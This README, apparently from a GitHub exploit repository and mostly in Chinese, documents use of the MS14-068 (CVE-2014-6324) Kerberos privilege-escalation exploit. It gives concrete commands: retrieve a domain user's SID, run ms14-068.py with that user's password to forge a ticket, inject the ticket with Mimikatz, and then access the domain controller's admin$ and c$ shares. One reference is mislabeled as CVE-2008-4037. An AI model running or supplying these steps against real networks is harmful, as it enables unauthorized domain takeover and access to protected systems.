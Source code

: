 # MS14-068

```
将普通域用户权限提升为域控权限  
（漏洞利用后，netuse \\swg.server.com\c$可以直接访问域控的网络资源
```

Vulnerability reference:
 * [MS14-068](https://technet.microsoft.com/library/security/ms14-068)
 * [CVE-2008-4037](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6324)
 
## Usage

域管理员:DCwin03  域名:demo.com  普通域用户:hx

登录普通域用户hx，cmd中输入"whoami/user"获取sid  
demo/hx   S-1-5-21-3813283032-1038476579-1047458262-1110
  
![x1](img/x1.png)  
![x2](img/x2.png)  

退出域用户hx，登录本地用户123  
```
python ms14-068.py -u hx@demo.com -p pwd_of_hx -s S-1-5-21-3813283032-1038476579-1047458262-1110 -d DCwin03.demo.com  
```
![x3](img/x3.png)
![x4](img/x4.png)  
```
c:\User\123>Mimikatz.exe "kerberos::ptc TGT_hx@demo.com.ccache" exit  
  
net use \\DCwin03\admin$  

dir \\DCwin03\c$
```


## References
* [Additional information about CVE-2014-6324](http://blogs.technet.com/b/srd/archive/2014/11/18/additional-information-about-cve-2014-6324.aspx)
* [深入解读MS14-068漏洞](http://www.freebuf.com/vuls/56081.html)
* [Attack Methods for Gaining Domain Admin Rights in Active Directory](https://adsecurity.org/?p=2362)
* [MS14068域控提权漏洞及其防护](http://www.php230.com/weixin1418640395.html)
* [MS14-068 privilege escalation PoC](http://www.secpulse.com/archives/2874.html)




